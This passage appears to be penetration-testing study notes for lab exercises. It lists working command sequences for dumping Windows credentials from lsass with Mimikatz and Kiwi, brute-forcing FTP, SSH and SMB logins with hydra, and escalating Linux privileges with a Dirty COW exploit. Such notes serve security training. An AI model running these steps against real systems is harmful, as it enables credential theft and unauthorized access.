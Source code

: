 **Dumping hashes with Mimikatz**
Extract hashes from the lsass.exe process memory where hashes are cached. Can use Kiwi extension in meterpreter. Requires privileges.
```
search badblue
pgrep lsass
migrate 788
load kiwi
creds_all
lsa_dump_sam

upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
.\mimikatz.exe
privilege::debug
lsadump::sam
lsadump::secrets
sekurlsa::logonpasswords
```

### Exploiting Linux vulnerabilities
**Exploiting FTP**
```
hydra -L ...common_users -P ...unix_passwords 1.1.1.1 -t 4 ftp
ftp 1.1.1.1
dir
get secret.txt

searchsploit ProFTPd
```

**Exploiting SSH**
```
hydra ...
ssh sysadmin@1.1.1.1
```

**Exploiting SAMBA**
```
hydra ...
smbmap -H 1.1.1.1 -u admin -p password1
smbclient //1.1.1.1/share -U admin
get flag

enum4linux -a 1.1.1.1 -u admin -p password1
```

### Linux Privilege Escalation
**Linux Kernel Exploits**
Linux-Exploit-Suggester tool
```
sysinfo
getuid
> Download LES
cd /tmp
upload les.sh
shell
chmod +x les.sh
./les.sh
> Download exploit code
sudo apt-get install gcc
upload dirty.c
> Compile code
shell /bin/bash -i
chmod +x dirty
./dirty
ssh firefart@1.1.1.1
```